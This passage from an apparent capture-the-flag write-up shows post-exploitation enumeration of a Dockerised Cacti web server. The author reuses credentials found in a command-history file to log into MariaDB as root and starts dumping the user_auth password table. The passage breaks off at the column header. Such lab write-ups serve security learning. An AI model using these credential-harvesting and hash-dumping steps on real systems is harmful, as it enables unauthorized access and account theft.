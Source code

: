 
The typescript file appears to be a list of commands previously ran, and it points to a file `entrypoint.sh` that has a username and password for a mysql instance. Upon checking the root directory for the entrypoint file I did not find it.

#### Docker

Poking around some more on the machine it appears this web server is running in a docker container. ( `.dockerenv` file found in our root directory)

```console
bash-5.1$ ls -a /
ls -a /
.
..
.dockerenv
bin
boot
dev
etc
...SNIP
```

### MySQL

Let's try to log into the mysql instance using the credentials found in the `typescript` file:\


```console
bash-5.1$ mysql --host=db --user=root --password=root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
..SNIP

MySQL [(none)]>	show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| cacti              |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.002 sec)

MySQL [(none)]>	use cacti

Database changed
MySQL [cacti]> show tables;
+-------------------------------------+
| Tables_in_cacti                     |
+-------------------------------------+
| aggregate_graph_templates           |
| aggregate_graph_templates_graph     |
| aggregate_graph_templates_item      |
| aggregate_graphs                    |
...SNIP      |
| user_auth                           |
+-------------------------------------+
111 rows in set (0.002 sec)

MySQL [cacti]> select * from user_auth;
+----+----------+--------------------------------------------------------------+-------+----------------+------------------------+----------------------+-----------------+-----------+
| id | username | password                                                     | realm | full_name      | email_address          | must_change_password | password_change | show_tree | 
```